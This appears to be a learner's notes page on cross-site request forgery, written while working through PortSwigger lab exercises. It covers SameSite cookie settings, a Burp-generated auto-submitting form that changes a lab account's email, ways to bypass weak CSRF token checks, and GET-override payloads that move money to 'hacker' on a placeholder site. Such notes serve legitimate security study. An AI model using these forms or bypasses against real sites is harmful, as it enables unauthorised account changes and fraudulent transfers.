

repository: jh1h1h/portfolio · page: docs/general/CSRF.html · generator: docusaurus

Browsers automatically attach your cookies, so u can make a victim do a malicious action in vulnerable site like transfer you money or change their password if they have no CSRF protection.

Requires user interaction! (to click on ur link)

## SameSite
Set it like this: `Set-Cookie: session=0F8tgdOhi9ynR1M9wa3ODa; SameSite=Strict`
When setting a cookie with SameSite=None, the website must also include the Secure attribute, which ensures that the cookie is only sent in encrypted messages over HTTPS. Otherwise, browsers will reject the cookie and it won't be set: `Set-Cookie: trackingId=0F8tgdOhi9ynR1M9wa3ODa; SameSite=None; Secure`

Cookies are sent when:

Strict - Only send if site is same

Lax - Request is GET and resulted from a top-level navigation (top-level navigation changes the url in your address bar)

None - Always sent

## Constructing exploit
CSRF PoC generator that is built in to Burp Suite Professional. It basically generates a bare bones HTML page with an autosubmitting form by using `document.forms[0].submit()` in a script.
<details>
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a0000e104ff3af7852a367600390083.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="a&#64;b&#46;c" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
</details>

CSRF tokens implemented poorly:
* Sometimes CSRF tokens are only validated through one HTTP method, so try all.
* Sometimes removing the token entirely bypasses the check completely
* Sometimes attacker can use the CSRF token from his own form to construct the CSRF attack as the token is not tied to the user session, or the token is tied to another key which is also user-controllable (attacker can replace both the token and the key with his own)
* Sometimes the website just copies the CSRF token from the form into a cookie and check if they match, so you just copy ur CSRF token into both the form and the cookie

Bypassing SameSite restrictions:
* Sometimes the POST request also accepts GET method
<details>
```html
<script>
    document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000';
</script>
```
or
```html
<form action="https://vulnerable-website.com/account/transfer-payment" method="POST">
    <input type="hidden" name="_method" value="GET">
    <input type="hidden" name="recipient" value="hacker">
    <input type="hidden" name="amount" value="1000000">
</form>
```
</details>
* Find a gadget that has a client-side redirect that dynamically constructs the redirection target using attacker-controllable input like URL parameters (eg [DOM-based open redirection](https://portswigger.net/web-security/dom-based/open-redirection))

Currently stopped at: Bypassing SameSite restrictions via vulnerable sibling domains on https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions
